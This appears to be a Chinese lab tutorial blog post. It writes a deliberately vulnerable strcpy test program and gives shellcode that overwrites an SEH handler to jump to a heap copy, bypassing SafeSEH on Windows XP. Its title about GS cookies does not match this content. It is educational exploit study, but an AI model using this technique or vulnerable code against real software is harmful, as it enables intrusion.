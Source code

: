 ```yaml
---
layout:		post
title:		同时替换栈和.data中的Cookie突破GS
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: Visual Studio 2008  
>调试器: OllyDbg 1.10  
<!-- more -->


### 0x00 前期准备

新建一个工程, 贴入以下代码

```
#include <string.h>
#include <stdlib.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
;

void test(char *input)
{
	char str[200];
	strcpy(str,input);
	int zero=0;
	zero=1/zero;
}

int main()
{
	char *buf=(char *)malloc(500);
	__asm int 3
	strcpy(buf,shellcode);
	test(shellcode);

	return 0;
}
```

项目->属性, 选择release版本, 禁用优化


### 0x01 分析

运行*.exe, OllyDbg自动附加调试, 调用完malloc后断下

![](/assets/img/exploit/2017-10-03-safeseh-break-byheap/0x00.png)

查看malloc返回的堆块地址, eax=0x003929d0

![](/assets/img/exploit/2017-10-03-safeseh-break-byheap/0x01.png)

直接F4跳到这里, 完成了strcpy

![](/assets/img/exploit/2017-10-03-safeseh-break-byheap/0x02.png)

内存区goto 0x003929d0, 这里是copy到堆的数据

![](/assets/img/exploit/2017-10-03-safeseh-break-byheap/0x03.png)

继续单步跟入test函数, F4跳到这里, 完成strcpy

![](/assets/img/exploit/2017-10-03-safeseh-break-byheap/0x04.png)

可以看到输入数据的起始栈地址0x0012fe8c

![](/assets/img/exploit/2017-10-03-safeseh-break-byheap/0x05.png)

定位到栈上最近的S.E.H结构, SE Handler的栈地址0x0012ffb4, 0x0012ffb4-0x0012fe8c=296 byte


### 0x02 exploit

利用safeS.E.H的缺陷, 即使S.E.H不可信, 对于指向堆区的Handler仍然会调用。
组织300 byte的shellcode, 覆盖掉栈上的SE Handler, 指向copy到堆块上的shellcode

```
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90"
"\xd0\x29\x39\x00";
```

注释掉int 3断点, 再编译运行, pwn~

![](/assets/img/exploit/2017-10-03-safeseh-break-byheap/0x06.png)